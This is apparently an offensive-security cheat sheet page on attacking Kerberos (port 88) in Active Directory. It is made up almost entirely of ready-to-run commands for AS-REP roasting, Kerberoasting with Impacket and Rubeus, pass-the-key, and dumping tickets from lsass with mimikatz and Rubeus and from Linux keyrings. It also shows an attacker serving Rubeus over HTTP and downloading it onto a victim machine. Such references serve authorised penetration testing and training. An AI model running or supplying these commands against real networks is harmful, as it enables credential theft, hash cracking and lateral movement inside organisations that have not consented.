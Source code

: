 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/ -request -no-pass -dc-ip 10.10.10.11 -usersfile users.txt 2>/dev/null
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.  


### Rubeus ASREPRoasting

```text
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

#### Rubeus Alternative

```text
Rubeus.exe kerberoast /outfile:output_TGS_file
```

```text
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
```

### Pass the key \(PTK\)

```text
.\Rubeus.exe asktgt /domain: /user: /rc4: /ptt
```

### Harvesting Tickets from Windows

The lsass \(Local Security Authority Subsystem Service\) process, which is responsible for security in Windows, handles and stores tickets. As a result, in order to obtain tickets from a Windows machine, you must contact with lsass and request them. Only owned tickets can be retrieved as a non-administrative user; however, as a machine administrator, you can harvest all of them.

```text
mimikatz # sekurlsa::tickets /export
# Rubeus when Mimikatz doesn't work.
.\Rubeus dump [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

### Harvesting Tickets from Linux

Extract  tickets from Linux Kernel Keyrings \(read the repo\):

{% embed url="https://github.com/TarlogicSecurity/tickey" %}

```text
/tmp/tickey -i
```



